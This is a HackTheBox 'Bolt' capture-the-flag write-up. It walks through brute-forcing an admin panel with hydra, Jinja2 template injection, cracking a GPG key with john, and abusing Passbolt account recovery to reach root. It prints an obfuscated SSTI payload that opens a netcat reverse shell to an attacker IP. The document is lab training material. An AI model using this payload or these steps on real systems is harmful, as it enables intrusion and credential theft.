# Bolt HackTheBox Writeup
### Level: `Medium` | OS: `Linux`


## Scanning
We run nmap on all ports with scripts and software versions.



## Enumeration
We put the subdomain in the **/etc/hosts** file and access the web resource.



We access the resource through port 443 and find a **passbolt** deployed.



We need invitation for used.




## Exploitation
We use hydra on the "*bolt.htb/admin*" authentication panel and obtain the administrator credentials.



We access with the credentials and go to the mail.



We see that they are having a conversation in which they have uploaded a Docker image to the server.



We do virtualhosting with wfuzz, we find these subdomains:



### Roundcube



### Create account bolt.htb


Download image.tar


We unzip the files, we find a **SQLite** database.



### Hash cracking


We use **grep** to search for the *invitation code* and find a file that exposes it.



We register an account and use the invitation code.



We also have access to email



In testing, we found that it is vulnerable to SSTI (Server-Side Template Injection).

#### PoC 



#### Result for mail



We insert the payload in the name change and apply the changes.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.XX.XX 443 >/tmp/f')|attr('read')()}}
```


We will receive an email, so we will set a **netcat** to listen and click on it.



##### Reverse shell



We do a reconnaissance and find some credentials in the file "*passbolt.php*". 



We tested these credentials on the user "eddie" and they work!


## Privilege Escalation

.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log



We use **gpg2john** and get the hash in the file to crack it with **john**.



##### Cracking with John



Searching for information, we found through Google this link on how to recover a "**Passbolt**" account with the *GPG key* and *password*. Sound familiar?

https://community.passbolt.com/t/recover-account-on-a-network-without-email/1394


We access the database with the credentials found above.



Select the user "**Eddie**", take his *ID* and *token*, this will be the data we need to create the cue recovery link.



#### Recovery account
```html
https://passbolt.bolt.htb/setup/recover/ID/TOKEN
```

Access the link, load the *gpg file* and now enter your *password* (the one we cracked earlier with **john**).



Once inside, we can see the root password.



We authenticate as the **root** user and read the flag.



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)